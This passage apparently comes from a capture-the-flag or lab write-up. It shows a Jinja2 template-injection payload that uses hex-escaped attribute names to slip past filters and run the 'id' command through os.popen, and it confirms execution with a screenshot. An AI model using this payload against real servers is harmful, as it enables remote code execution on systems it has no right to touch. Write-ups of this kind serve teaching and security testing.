     {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}



I'll explain exactly how this payload works in [this
video](https://www.youtube.com/watch?v=VBifwXFQJMQ):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=VBifwXFQJMQ){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

On sending that, the output of the `id` command is present:

![](/img/image-20240713131129672.png)

#### Shell
